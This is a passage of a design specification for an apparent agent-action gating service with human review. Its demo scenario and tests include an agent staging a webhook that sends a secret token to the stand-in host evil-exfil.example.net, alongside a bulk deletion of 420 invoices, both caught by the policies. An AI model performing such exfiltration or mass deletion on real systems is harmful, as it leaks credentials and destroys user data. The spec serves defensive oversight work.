- **Request JSON** (body optional; `{}` allowed): `agent_summary` (string or null, ≤ 1000; stored as manifest `agent_summary`; never evaluated by policy):

  <!-- schema: api.schema.json#/$defs/CompleteRequest -->
  ```json
  {
    "agent_summary": "Updated INV-0042 to PAID and staged webhook notification."
  }
  ```
- **Response JSON (`200 OK`)**: full manifest with `execution_status: COMPLETED`, `completed_at` set, `human_review_status: PENDING`, `finalized_at: null`, `finalization_result: null`, final `gate_decision`. Excerpt for the demo's dangerous session (full manifest: `examples/manifest.dangerous-completed.json`, 420 deletions; `mutations.deleted` shortened to one record, other keys omitted):

  <!-- excerpt-of: examples/manifest.dangerous-completed.json -->
  ```json
  {
    "session_id": "3f2b8a1e-5c4d-4e7a-9b1f-0a6d2c8e4f10",
    "execution_status": "COMPLETED",
    "gate_decision": "BLOCK",
    "human_review_status": "PENDING",
    "completed_at": "2026-11-24T12:02:00Z",
    "baseline_record_count": 500,
    "mutation_counts": { "inserted": 0, "updated": 0, "deleted": 420, "total": 420 },
    "risk_summary": {
      "overall_risk_level": "CRITICAL",
      "total_mutations": 420,
      "affected_percentage": 84.0,
      "violation_count": 3,
      "block_count": 2,
      "require_approval_count": 1,
      "staged_webhook_count": 0,
      "summary_text": "420 invoices deleted (84.0% of baseline), 1 webhook blocked, 3 policy violations (2 BLOCK, 1 REQUIRE_APPROVAL)."
    },
    "staged_webhooks": [
      {
        "webhook_id": "0b8d6f4a-3e1c-4c79-8a25-d9f1b3e5a7c2",
        "operation_id": "c4e8f0a2-6d1b-4f37-b95a-1d3e7c9a5f62",
        "url": "https://evil-exfil.example.net/collect",
        "event_type": "dump",
        "payload": { "token": "[REDACTED]" },
        "staged_at": "2026-11-24T12:01:40Z",
        "status": "BLOCKED"
      }
    ],
    "policy_violations": [
      {
        "policy_id": "POL-003",
        "policy_name": "Secret Exfiltration in Webhook Payload",
        "severity": "CRITICAL",
        "decision": "BLOCK",
        "effect_scope": "SESSION",
        "stage": "TOOL_EXECUTE",
        "operation_id": "c4e8f0a2-6d1b-4f37-b95a-1d3e7c9a5f62",
        "explanation": "Webhook payload contains a configured secret marker at payload.token; value redacted.",
        "affected_record_count": null,
        "timestamp": "2026-11-24T12:01:40Z"
      },
      {
        "policy_id": "POL-004",
        "policy_name": "Unauthorized Webhook Destination",
        "severity": "CRITICAL",
        "decision": "BLOCK",
        "effect_scope": "SESSION",
        "stage": "TOOL_EXECUTE",
        "operation_id": "c4e8f0a2-6d1b-4f37-b95a-1d3e7c9a5f62",
        "explanation": "Webhook destination host evil-exfil.example.net is not in allowed_webhook_domains.",
        "affected_record_count": null,
        "timestamp": "2026-11-24T12:01:40Z"
      },
      {
        "policy_id": "POL-001",
        "policy_name": "Bulk Deletion Threshold",
        "severity": "HIGH",
        "decision": "REQUIRE_APPROVAL",
        "effect_scope": "SESSION",
        "stage": "SESSION_COMPLETE",
        "operation_id": null,
        "explanation": "420 of 500 baseline records deleted (84.0%), exceeding the 80% threshold.",
        "affected_record_count": 420,
        "timestamp": "2026-11-24T12:02:00Z"
      }
    ],
    "finalization_result": null
  }
  ```
- **Status codes**: `200`, `401`, `404`, `409`, `422`, `500`.
- **Error codes**: `UNAUTHORIZED_AGENT`, `INVALID_ARGUMENTS`, `INVALID_SESSION`, `SESSION_ALREADY_FINALIZED`, `INVALID_SESSION_STATE`, `DATABASE_FAILURE`, `INTERNAL_ERROR`.
- **Validation rules**: session must exist and be `ACTIVE`; a second `/complete` → `409 INVALID_SESSION_STATE`. Allowed when the gate is already `BLOCK`.
- **Expected behavior**: under the lock — mutation records are already net per entity (7.2); evaluate `POL-001`/`POL-002` with integer arithmetic (5.3) and record violations (`stage SESSION_COMPLETE`, `operation_id null`, `effect_scope SESSION`); set each mutation's `policy_decision` (5.4); recompute `gate_decision` with sticky `BLOCK`; recompute `risk_summary`; set `COMPLETED`. Production is not touched.

### 10.7 `POST /api/sessions/{session_id}/commit`
- **Purpose**: Human approval: validate and atomically apply the session's mutations plus the commit-ledger receipt to `airlock_prod.db`.
- **Operation class**: reviewer-only.
- **Authentication**: `Authorization: Bearer <AIRLOCK_REVIEWER_TOKEN>` (agent token → `401 UNAUTHORIZED_REVIEWER`) **and** an `Origin` header in `CORS_ORIGINS` (missing/disallowed `Origin` → `403 FORBIDDEN`, section 3.5).
- **Request headers**: `Authorization`, `Content-Type: application/json`, `Origin`.
- **Request JSON**: `reviewer` (required, 1–120 chars, not blank; audit label), `reason` (optional string or null, ≤ 500):

  <!-- schema: api.schema.json#/$defs/ReviewerActionRequest -->
  ```json
  {
    "reviewer": "alice@airlock.local",
    "reason": "Verified wire transfer for INV-0042."
  }
  ```
- **Response JSON (`200 OK`)**: the manifest with `execution_status: COMMITTED`, `human_review_status: APPROVED`, `finalized_at` set, `finalization_result` `{action: COMMIT, status: SUCCESS, applied_counts, conflict_details: null, ledger_id, recovered: false}` (same shape as the example in 10.4).
- **Status codes**: `200`, `401`, `403`, `404`, `409`, `422`, `500`.
- **Error codes**: `FORBIDDEN`, `UNAUTHORIZED_REVIEWER`, `INVALID_ARGUMENTS`, `INVALID_SESSION`, `SESSION_ALREADY_FINALIZED`, `INVALID_SESSION_STATE`, `POLICY_BLOCK`, `COMMIT_CONFLICT`, `DATABASE_FAILURE`, `INTERNAL_ERROR`.
- **Validation rules**: `Origin` allowlist check (3.5) and authentication before precondition order in 8.1. `REQUIRE_APPROVAL` and `ALLOW` sessions commit only because this call is the explicit human approval.
- **Expected behavior**: the protocol in 8.1 (`BEGIN IMMEDIATE`, validate all, apply all, ledger receipt in the same transaction, one `COMMIT`; any failure rolls everything back) with reconciliation per 8.2. Error shapes:

  Missing or disallowed `Origin` header (evaluated before authentication):

  <!-- schema: error.schema.json -->
  ```json
  {
    "error": {
      "code": "FORBIDDEN",
      "message": "Origin header is missing or not in the configured CORS_ORIGINS allowlist.",
      "http_status": 403,
      "details": {},
      "request_id": "8c4e2a91-6f3b-4d17-9a58-2e7b1c4d9f03",
      "timestamp": "2026-11-24T12:02:15Z"
    }
  }
  ```

  Missing or agent token:

  <!-- schema: error.schema.json -->
  ```json
  {
    "error": {
      "code": "UNAUTHORIZED_REVIEWER",
      "message": "Missing or invalid reviewer bearer token. Agent tokens cannot authorize reviewer actions.",
      "http_status": 401,
      "details": {},
      "request_id": "41486e1e-9d47-488a-86b1-ae5a72dff0f6",
      "timestamp": "2026-11-24T12:02:10Z"
    }
  }
  ```
  Conflict — `details.conflicts` lists at most 50 entries (`truncated: true` when more; `conflict_count` is the total); the manifest's `finalization_result.conflict_details` holds the **full** list with `status FAILED`, `applied_counts` zero and `ledger_id null`. The session stays `COMPLETED` / review `PENDING`; the reviewer may retry or roll back.

  <!-- schema: error.schema.json; details: api.schema.json#/$defs/CommitConflictDetails -->
  ```json
  {
    "error": {
      "code": "COMMIT_CONFLICT",
      "message": "Production data changed since the session baseline; no changes were applied.",
      "http_status": 409,
      "details": {
        "conflict_count": 1,
        "truncated": false,
        "conflicts": [
          {
            "entity_type": "invoice",
            "entity_id": "INV-0042",
            "conflict_type": "MODIFIED",
            "expected_version": 1,
            "actual_version": 2
          }
        ]
      },
      "request_id": "7a3c9e1f-5b2d-4d68-9a04-c8e6f2b4d130",
      "timestamp": "2026-11-24T12:11:30Z"
    }
  }
  ```
  Production commit succeeded but the metadata update failed (the receipt exists; reconciliation will finalize):

  <!-- schema: error.schema.json; details: api.schema.json#/$defs/CommitDurableDetails -->
  ```json
  {
    "error": {
      "code": "DATABASE_FAILURE",
      "message": "The production commit is durable but the session record could not be updated; reconciliation will finalize it.",
      "http_status": 500,
      "details": {
        "commit_durable": true,
        "ledger_id": "1f4a7c9e-3d2b-4e86-a5c1-9b0d7e3f2a64"
      },
      "request_id": "4fac5ea1-4458-43e8-854e-3522812ea40a",
      "timestamp": "2026-11-24T12:11:31Z"
    }
  }
  ```

### 10.8 `POST /api/sessions/{session_id}/rollback`
- **Purpose**: Reject the session and discard its speculative state; production stays untouched.
- **Operation class**: reviewer-only.
- **Authentication**: `Authorization: Bearer <AIRLOCK_REVIEWER_TOKEN>` (agent token → `401 UNAUTHORIZED_REVIEWER`) **and** an `Origin` header in `CORS_ORIGINS` (missing/disallowed `Origin` → `403 FORBIDDEN`, section 3.5).
- **Request headers**: `Authorization`, `Content-Type: application/json`, `Origin`.
- **Request JSON**: same as commit:

  <!-- schema: api.schema.json#/$defs/ReviewerActionRequest -->
  ```json
  {
    "reviewer": "alice@airlock.local",
    "reason": "Rejected unauthorized bulk deletion."
  }
  ```
- **Response JSON (`200 OK`)**: the manifest with `execution_status: ROLLED_BACK`, `human_review_status: REJECTED`, `finalized_at` set, `finalization_result` `{action: ROLLBACK, status: SUCCESS, applied_counts: {0,0,0}, conflict_details: null, ledger_id: null, recovered: false}`.
- **Status codes**: `200`, `401`, `403`, `404`, `409`, `422`, `500`.
- **Error codes**: `FORBIDDEN`, `UNAUTHORIZED_REVIEWER`, `INVALID_ARGUMENTS`, `INVALID_SESSION`, `SESSION_ALREADY_FINALIZED`, `DATABASE_FAILURE`, `INTERNAL_ERROR`.
- **Validation rules**: `Origin` allowlist check (3.5) and authentication first; session must be `ACTIVE` or `COMPLETED`, any `gate_decision`, and must have no ledger receipt.
- **Expected behavior**: protocol 8.4 (returns `403 FORBIDDEN` using the error shape in 10.7 if `Origin` is missing or not in `CORS_ORIGINS`). Recorded mutations, violations and webhook entries remain in the manifest for audit; no webhook is ever dispatched.

### 10.9 `POST /api/demo/reset`
- **Purpose**: Reset the demo: re-seed production and clear all sessions, for repeatable demos.
- **Operation class**: local-demo-only.
- **Authentication**: `Authorization: Bearer <AIRLOCK_REVIEWER_TOKEN>`, **and** the guards in 3.6 (`AIRLOCK_DEMO_MODE=true`, loopback client, `Origin` in `CORS_ORIGINS`).
- **Request headers**: `Authorization`, `Content-Type: application/json`, `Origin`.
- **Request JSON**: `{}` or empty:

  <!-- schema: api.schema.json#/$defs/EmptyObject -->
  ```json
  {}
  ```
- **Response JSON (`200 OK`)**:

  <!-- schema: api.schema.json#/$defs/ResetResponse -->
  ```json
  {
    "status": "reset_complete",
    "prod_invoice_count": 500,
    "overdue_count": 420,
    "non_overdue_count": 80,
    "cleared_sessions": 2,
    "timestamp": "2026-11-24T12:00:00Z"
  }
  ```
- **Status codes**: `200`, `401`, `403`, `422`, `500`.
- **Error codes**: `FORBIDDEN`, `UNAUTHORIZED_REVIEWER`, `INVALID_ARGUMENTS`, `DATABASE_FAILURE`, `INTERNAL_ERROR`.
- **Validation rules**: body empty or `{}`.
- **Expected behavior**: under the lock, in this order (idempotent, safe to re-run after a crash): (1) delete all files in `AIRLOCK_SPECULATIVE_DIR`; (2) delete all `sessions` rows in the metadata DB (`cleared_sessions` = rows removed, any state); (3) in one production transaction delete all `invoices` rows, insert the seed from `invoice.schema.json → x-seed` (500 rows, 420 `OVERDUE`, 80 non-overdue, all `version 1`), and **delete all commit-ledger rows**. A speculative DB is never used as the seed source.

---

## 11. Frontend Integration Contract (Member 2)

- **Polling**: `GET /api/sessions` every `NEXT_PUBLIC_POLL_INTERVAL_MS` (default `2000`); on a detail page, `GET /api/sessions/{session_id}` every `2000ms` while `execution_status` is `ACTIVE` or `COMPLETED`.
- **Session list**: `session_id`, `agent_name`, `execution_status`, `gate_decision` badge (`ALLOW` green, `REQUIRE_APPROVAL` amber, `BLOCK` red, `PENDING` gray), `human_review_status`, `mutation_counts.total`, `created_at`.
- **Detail & diff view**:
  - `tool_execution_history` as an ordered timeline with `status` and `tool_decision`; a `BLOCKED` call must never look successful.
  - Show **tool-level** (`tool_decision`, violation `effect_scope: TOOL`) and **session-level** (`gate_decision`) decisions separately and labelled.
  - `policy_violations` with `policy_id`, `severity`, `decision`, `effect_scope`, `explanation`, `affected_record_count`.
  - `mutations.updated` side-by-side `before`/`after` highlighting `changed_fields`; `mutations.deleted` (`before`); `staged_webhooks` including `BLOCKED` ones.
  - Large diffs: summary banner (e.g. "420 invoices deleted — 84.0% of baseline") and the first 50 rows with "Show all N". All records are present in the response.
- **Reviewer token**: prompt for it (password field) before the first `commit`/`rollback`/`reset`; keep it in memory only (3.3); on `401 UNAUTHORIZED_REVIEWER` clear it and re-prompt. Never put it in `NEXT_PUBLIC_*`, storage, cookies or URLs. Never call agent endpoints.
- **Controls**:
  - **Approve & Commit**: enabled only when `execution_status === "COMPLETED"` AND `gate_decision !== "BLOCK"` AND `human_review_status === "PENDING"`; for `REQUIRE_APPROVAL` add a confirmation step. Disabled with a reason when `BLOCK`.
  - **Reject & Rollback**: enabled when `execution_status` is `ACTIVE` or `COMPLETED` and `human_review_status === "PENDING"`.
  - Never show success optimistically: wait for `200`; surface `error.message` for `401`, `403`, `409` (including `COMMIT_CONFLICT` `details.conflicts`) and `500`. After a `500` with `details.commit_durable` show "commit recorded; refreshing" and re-poll.
  - Send `Content-Type: application/json` on every POST.
- **Security**: render all agent-supplied text as plain text (3.8).
- **UI states**: Loading, Empty (`sessions.length === 0`), Error banner with retry.

---

## 12. End-to-End Demo Scenario

Setup: `POST /api/demo/reset` (reviewer token) → 500 invoices: `INV-0001`…`INV-0420` `OVERDUE`, `INV-0421`…`INV-0500` non-overdue (seed rules and fixed records in `invoice.schema.json → x-seed`; `INV-0001`, `INV-0002`, `INV-0042` are fixed `OVERDUE` rows, `INV-0042` is Contoso Retail as in 10.4).

### Part A — Dangerous + malicious session → `BLOCK` → reviewer rejects
Session `3f2b8a1e-5c4d-4e7a-9b1f-0a6d2c8e4f10`.

1. **Create** — `POST /api/sessions` (agent token) → `201`, `created_at 2026-11-24T12:00:30Z`.
2. **Dangerous operation** — `POST /api/tools/execute` with `{"session_id": "3f2b8a1e-5c4d-4e7a-9b1f-0a6d2c8e4f10", "tool_name": "bulk_delete_invoices", "arguments": {"status": "OVERDUE", "reason": "Purge all overdue invoices"}}` → `200` (excerpt: `deleted_invoice_ids` shortened to 2 of 420 entries here; the complete response is in `tools.json`):

   <!-- excerpt-of: tools.json#bulk_delete_invoices.example_success_response -->
   ```json
   {
     "operation_id": "9a1c5e7d-2b4f-4d86-a3c1-7e0f5b2d9c48",
     "session_id": "3f2b8a1e-5c4d-4e7a-9b1f-0a6d2c8e4f10",
     "tool_name": "bulk_delete_invoices",
     "status": "SUCCESS",
     "read_only": false,
     "tool_decision": "ALLOW",
     "session_gate_decision": "PENDING",
     "mutations_recorded": 420,
     "policy_violations": [],
     "result": {
       "deleted_count": 420,
       "deleted_invoice_ids": ["INV-0001", "INV-0002"],
       "unmatched_invoice_ids": []
     },
     "executed_at": "2026-11-24T12:01:30Z"
   }
   ```
   420 `DELETE` records exist in the manifest; `airlock_prod.db` still holds 500 invoices. `tool_decision: ALLOW` only means no tool-stage policy objected; the 80% rule runs at `/complete`.
3. **Malicious operation** — `stage_webhook` with `{"url": "https://evil-exfil.example.net/collect", "event_type": "dump", "payload": {"token": "sk_live_DEMO_REDACTED"}}` → `403 POLICY_BLOCK` (body in 10.5). `POL-003` + `POL-004` recorded; `session_gate_decision` becomes `BLOCK`; the webhook is stored as `BLOCKED` with payload `{"token": "[REDACTED]"}`; **no HTTP request is sent**; the marker is stored nowhere. (With an allowlisted host such as `hooks.airlock.internal`, only `POL-003` fires.)
4. **Lockout (optional negative test)** — any mutating call, e.g. `update_invoice`, now returns `403 POLICY_BLOCK` with `details.reason SESSION_BLOCKED` (10.5); `list_invoices` still works.
5. **Complete** — `POST /api/sessions/3f2b8a1e-5c4d-4e7a-9b1f-0a6d2c8e4f10/complete` (agent token) → `200`; excerpt in 10.6: `gate_decision BLOCK`, `affected_percentage 84.0`, three violations. `POL-001` alone would give `REQUIRE_APPROVAL`; `BLOCK` outranks it, so the session decision is **`BLOCK`**.
6. **Commit attempt (negative test)** — `POST …/commit` (reviewer token) → `403 POLICY_BLOCK` (body in section 9). Production unchanged.
7. **Reviewer rejects** — `POST …/rollback` (reviewer token) with `{"reviewer": "alice@airlock.local", "reason": "Rejected unauthorized bulk deletion."}` → `200`, `ROLLED_BACK`, `REJECTED`. The speculative DB is deleted; `GET /api/health` shows `prod_invoice_count: 500`; all 420 `OVERDUE` rows are still in production.

*Variant (no webhook):* the same bulk deletion without step 3 ends `gate_decision REQUIRE_APPROVAL` (`overall_risk_level HIGH`); commit is possible only after the reviewer's explicit call.

### Part B — Safe session → `ALLOW` → approve → commit
Session `b7d4e2c9-1a3f-4b68-8e52-6f9c0d7a3b21`.
1. **Create** → `201` (10.2).
2. `get_invoice` `INV-0042` (read-only, `mutations_recorded 0`).
3. `update_invoice` `{"invoice_id": "INV-0042", "status": "PAID", "notes": "Wire transfer confirmed"}` → `200` (10.5): before/after recorded, `baseline_version 1`.
4. `stage_webhook` to `https://hooks.airlock.internal/billing-events` → `200`, `staged_status STAGED`, `mutations_recorded 0`. Not dispatched.
5. **Complete** → `gate_decision ALLOW`, no violations, `mutation_counts.total 1`, `affected_percentage 0.2`; the mutation's `policy_decision` becomes `ALLOW`.
6. **Reviewer approves** — `POST …/commit` (reviewer token): under `BEGIN IMMEDIATE`, `INV-0042` is present at `version 1` and equals `before`, so validation passes; the update and the ledger receipt (4.1) are applied and committed together. Response: the manifest in 10.4 (`COMMITTED`, `APPROVED`, `applied_counts.updated 1`, `ledger_id`). Production `INV-0042` is now `PAID`, `version 2`. The webhook entry stays `STAGED` and is never dispatched.

### Part C — Crash between production `COMMIT` and metadata update
Fault-inject a process kill after step 8 of 8.1 for session `b7d4e2c9-1a3f-4b68-8e52-6f9c0d7a3b21`. After restart, reconciliation (8.2) finds the receipt, sets the session to `COMMITTED` / `APPROVED` with `finalization_result.recovered: true` (`examples/manifest.safe-recovered.json`), and **does not replay** the update: `INV-0042` stays at `version 2`. A retried `commit` or a `rollback` before reconciliation also reconciles first and returns `409 SESSION_ALREADY_FINALIZED`.

### Required contract tests (Member 4)

| # | Test | Expected |
|---|---|---|
| 1 | Reset, then count | 500 / 420 / 80; ledger empty; sessions cleared |
| 2 | Agent endpoint with no/invalid bearer | `401 UNAUTHORIZED_AGENT` |
| 3 | Agent token on `commit`, `rollback`, `reset` | `401 UNAUTHORIZED_REVIEWER`; no state change |
| 4 | Reviewer token on agent endpoints | `401 UNAUTHORIZED_AGENT` |
| 5 | Startup with empty or identical tokens; `AIRLOCK_DEMO_MODE=true` with non-loopback host | Process refuses to start |
| 6 | Delete 400 / 401 / 420 invoices, then `/complete` | 400 → `ALLOW`; 401 → `REQUIRE_APPROVAL`; 420 → `REQUIRE_APPROVAL`, 84.0% |
| 7 | Update 125 / 126 invoices, then `/complete` | 125 → no `POL-002`; 126 → `POL-002` `REQUIRE_APPROVAL` |
| 8 | Webhook containing `sk_live_DEMO_REDACTED` | `403`, gate `BLOCK`, webhook `BLOCKED`, no outbound request; marker absent from every API response, the metadata DB file and logs |
| 9 | Unknown `tool_name` | `400 INVALID_TOOL`, `POL-005` scope `TOOL`, gate **not** `BLOCK`; a following valid mutating call succeeds |
| 10 | After session `BLOCK`: `update_invoice`; `list_invoices`; `/complete`; `commit`; `rollback` | `403 SESSION_BLOCKED`; `200`; `200`; `403 POLICY_BLOCK`; `200` |
| 11 | Invalid arguments | `422`; no mutation; gate unchanged |
| 12 | `update_invoice` with a secret marker in `notes` | `422 SECRET_IN_ARGUMENT`; nothing recorded |
| 13 | `bulk_delete_invoices` with one missing requested ID | `404 INVOICE_NOT_FOUND`; zero deletions; no mutation records |
| 14 | `bulk_delete_invoices` with `invoice_ids` + `status` | Only IDs matching both deleted; others in `unmatched_invoice_ids` |
| 15 | Execute after `/complete`; after finalization | `409 INVALID_SESSION_STATE`; `409 SESSION_ALREADY_FINALIZED` |
| 16 | Commit on `ACTIVE` session; on `BLOCK` session | `409 INVALID_SESSION_STATE`; `403 POLICY_BLOCK` |
| 17 | Rollback, then compare production logical content hash | Identical; 500 invoices |
| 18 | After clone, modify / delete / silently edit (no version bump) `INV-0042` in production, then commit | `409 COMMIT_CONFLICT` (`MODIFIED` / `MISSING` / `MODIFIED`); production unchanged; no ledger row; session `COMPLETED` |
| 19 | Commit where one of 420 deletions conflicts | None of the 420 applied |
| 20 | `INSERT` record whose ID now exists in production | `409`, `UNEXPECTED_EXISTING` |
| 21 | Successful commit | Production rows equal recorded `after`; exactly one ledger row with matching counts and digest |
| 22 | Fault injection during apply and during ledger insert | `500 DATABASE_FAILURE`; production and ledger unchanged; session `COMPLETED` |
| 23 | Kill after production `COMMIT`, before metadata update; restart | Session `COMMITTED`, `recovered: true`; production not changed by recovery |
| 24 | Commit retry or rollback after that crash, before reconciliation | `409 SESSION_ALREADY_FINALIZED`; no second ledger row; committed data retained |
| 25 | Second commit/rollback on a finalized session | `409 SESSION_ALREADY_FINALIZED` |
| 26 | Reset from non-loopback client, or with `AIRLOCK_DEMO_MODE` unset | `403 FORBIDDEN` |
| 27 | Seed rows | No secret marker; `INV-0001`…`INV-0420` `OVERDUE` |
| 28 | `policies.json` thresholds | `POL-001` is the integer `80`, `POL-002` is `25`, both `GT` |
| 29 | Any `GET` response; any log line | No agent or reviewer token |
| 30 | Agent process environment | No production DB path, metadata DB path or reviewer token |
| 31 | `commit`, `rollback`, or `reset` with missing, `"null"`, or untrusted `Origin` (even with valid reviewer token) | `403 FORBIDDEN` before auth/action; zero state change |
| 32 | Spoofed `X-Forwarded-For: 127.0.0.1` from non-loopback client, or untrusted `Host` header | `403 FORBIDDEN` (reset) / `400` (`TrustedHostMiddleware`); `Host` never overrides `CORS_ORIGINS` |
| 33 | Non-browser client (`curl` / test script) sending `Origin: http://localhost:3000` + `AIRLOCK_REVIEWER_TOKEN` on `commit`, `rollback`, `reset` | `200` (succeeds when state/guards valid) |
| 34 | Non-browser client sending `Origin: http://localhost:3000` + `AIRLOCK_AGENT_TOKEN` on `commit`, `rollback`, `reset` | `401 UNAUTHORIZED_REVIEWER`; no state change |

---

## 13. Known Limitations (MVP)

- **No automatic session expiry.** `ACTIVE` and `COMPLETED` sessions (and their speculative DB files) persist until a reviewer rolls them back or the demo is reset. Abandoned sessions must be cleaned up manually.
- Single process, single worker, one global lock; no horizontal scaling.
- Unauthenticated read endpoints rely on loopback binding (3.4).
- One shared token per role; the `reviewer` label is not an identity.
- Secret detection is marker-based; obfuscated secrets are not detected.
- No pagination of mutation arrays (bounded at 500 records).
- Reconciliation depends on the metadata DB surviving; a receipt without a metadata row is only logged.

---

## 14. Implementation Constraints (FastAPI + SQLite)

- Run `uvicorn` with one worker and `--host 127.0.0.1`. One process-wide `threading.Lock` is held by every mutating endpoint.
- Use synchronous `sqlite3` with `isolation_level=None` and explicit `BEGIN`/`COMMIT`/`ROLLBACK`; one connection per request; set `busy_timeout`.
- Load `tools.json`, `policies.json` and all schemas at startup; validate tool arguments with a JSON Schema validator (draft 2020-12 with format checking); fail startup if any file is invalid.
- Register exception handlers for `RequestValidationError`, `HTTPException`, `sqlite3.Error` and `Exception` so every error uses the section 9 envelope.
- Startup checks, in order: tokens non-empty and different; demo mode with loopback host; database files and ledger table exist; **ledger reconciliation (8.2)**; only then accept requests.
- Run `python3 scripts/validate_contracts.py` in CI to keep the contract files consistent.
